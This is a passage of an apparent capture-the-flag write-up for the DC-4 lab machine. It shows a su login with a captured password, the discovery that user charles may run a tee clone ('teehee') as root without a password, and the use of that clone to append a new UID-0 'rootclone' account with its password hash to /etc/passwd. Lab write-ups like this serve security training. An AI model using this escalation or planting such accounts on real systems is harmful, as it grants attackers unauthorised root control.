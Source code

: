 The `su` command was used to switch to the `charles` user:

```shellscript
www-data@dc-4:/var/mail$ su charles
Password: ^xHhA&hvim0y
charles@dc-4:/var/mail$
```

Successfully logged in as `charles`.

### 4. Privilege Escalation to Root

As the `charles` user, the `sudo` permissions were immediately checked:

```shellscript
charles@dc-4:~$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee
```

This was a clear path to root! The `charles` user could run `/usr/bin/teehee` as `root` without a password.

The `teehee` binary was investigated. Running `./teehee --help` on the local machine (after copying it via `scp`) revealed that it is a clone of the `tee` command, which copies standard input to standard output and also to files. The crucial option was `-a, --append`, which allows appending to files instead of overwriting them.

```shellscript
./teehee --help
# ... (output omitted for brevity)
Usage: ./teehee [OPTION]... [FILE]...
Copy standard input to each FILE, and also to standard output.
  -a, --append              append to the given FILEs, do not overwrite
# ...
```

This meant `charles` could append content to any file on the system as root. The `/etc/passwd` file was the target for creating a new root user.

First, a new password hash for a new root user (`rootclone`) was generated using `openssl passwd -6` (for SHA512 hash):

```shellscript
openssl passwd -6 'MySecurePass123'
$6$d1DTAAyDxTQJ2Pmw$pxrUTJwQwsktpRnMIOe4xrtd87z9aPmQlObicRuRP1PHs7Pha6XvyxCujHtIYuF0HkZhANlJJZUT9/b7RcgF10
```

Then, this hash was used to create a new root user entry and append it to `/etc/passwd` using `sudo /usr/bin/teehee -a`:

```shellscript
echo 'rootclone:$6$d1DTAAyDxTQJ2Pmw$pxrUTJwQwsktpRnMIOe4xrtd87z9aPmQlObicRuRP1PHs7Pha6XvyxCujHtIYuF0HkZhANlJJZUT9/b7RcgF10:0:0:Root Clone:/root:/bin/bash' | sudo /usr/bin/teehee -a /etc/passwd
```
